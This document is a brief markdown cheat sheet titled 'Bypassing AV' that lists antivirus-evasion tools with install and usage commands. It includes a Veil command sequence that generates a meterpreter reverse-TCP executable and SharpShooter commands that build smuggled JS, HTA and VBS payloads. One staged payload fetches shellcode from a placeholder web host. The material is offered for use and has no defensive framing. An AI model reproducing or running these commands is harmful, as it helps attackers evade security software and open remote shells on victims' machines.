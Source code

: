 # Bypassing AV

## Veil Framework:

Install on Kali: 
- `apt install veil`
- `/usr/share/veil/config/setup.sh --force --silent`

Reference: https://github.com/Veil-Framework/Veil

Generate exe example:
```
$ veil
> use 1 (Evasion)
> use 11 (cs/meterpreter/rev_tcp)
> set LPORT 4442
> set LHOST 10.52.252.94
> set USE_ARYA Y
> generate
$ ls /var/lib/veil/output/compiled/
```


## Shellter

Source: https://www.shellterproject.com/download/

- `apt install shellter`


## Sharpshooter

Javascript Payload Stageless: 
- `SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3`

Stageless HTA Payload: 

- `SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee`

Staged VBS:

- `SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4`

Reference: https://github.com/mdsecactivebreach/SharpShooter

## Donut: 

Source: https://github.com/TheWover/donut

## Vulcan

Source: https://github.com/praetorian-code/vulcan


## Scarecrow

Source: https://github.com/optiv/ScareCrow

In Kali: 

```
sudo apt install golang

go get github.com/fatih/color
go get github.com/yeka/zip
go get github.com/josephspurrier/goversioninfo

go build ScareCrow.go

./ScareCrow
```